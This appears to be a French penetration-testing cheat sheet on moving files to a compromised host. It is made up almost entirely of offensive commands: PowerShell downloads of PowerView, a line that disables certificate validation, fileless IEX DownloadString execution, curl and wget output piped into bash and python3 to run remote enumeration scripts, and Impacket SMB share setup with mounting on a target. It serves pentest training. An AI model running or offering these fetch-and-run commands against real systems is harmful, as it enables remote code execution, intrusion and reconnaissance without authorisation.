 ```powershell
(New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
```

```powershell
Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1 -UseBasicParsing
```

bypass SSL error

```powershell
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```

## Fileless (Chargé en mémoire)

POWERSHELL

```powershell
IEX (New-Object Net.WebClient).DownloadString('<Target File URL>')
```

```powershell
(New-Object Net.WebClient).DownloadString('<Target File URL>') | IEX
```

BASH

```shell
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```

```shell
wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```


# SMB DOWNLOADS

## Créer partage avec Impacket

BASH

```shell
sudo impacket-smbserver share -smb2support /tmp/smbshare
```

En cas de besoin de s'authentifier:

```shell
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```

## Monter le partage sur la cible

```cmd-session
net use n: \\192.168.220.133\share /user:test test
```
